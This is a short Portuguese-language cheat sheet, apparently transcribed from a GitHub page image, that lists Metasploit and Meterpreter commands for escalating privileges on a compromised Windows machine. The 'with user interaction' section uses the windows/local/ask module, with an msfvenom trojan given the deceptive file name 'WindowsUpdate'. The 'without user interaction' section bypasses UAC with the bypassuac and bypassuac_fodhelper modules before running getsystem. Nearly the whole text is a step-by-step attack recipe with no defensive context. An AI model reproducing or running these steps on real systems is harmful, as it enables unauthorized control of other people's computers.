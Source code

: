 ### Escalação de privilégio ***com interação do usuário***
getuid
getprivs
getsystem -h

Depois de criar o cavalo de troia através do MSFVENOM faça:

metasploit
meterpreter> background
exploit (multi/handler)> search uac
use exploit/windows/local/ask

exploit (windows/local/ask)> set FILE_NAME WindowsUpdate
exploit (windows/local/ask)> session 1
exploit (windows/local/ask)> technique PSH
exploit (windows/local/ask)> run
exploit (windows/local/ask)> sessions -i 2

### Escalação de privilégio ***sem interação do usuário***

1ª tentativa
use exploit/windows/local/bypassuac
set session 1 
run

2ª tentativa
use exploit/windows/local/bypassuac_fodhelper
exploit (windows/local/bypassuac_fodhelper)> set session 1 
exploit(windows/local/bypassuac_fodhelper)> run
meterpreter> getsystem


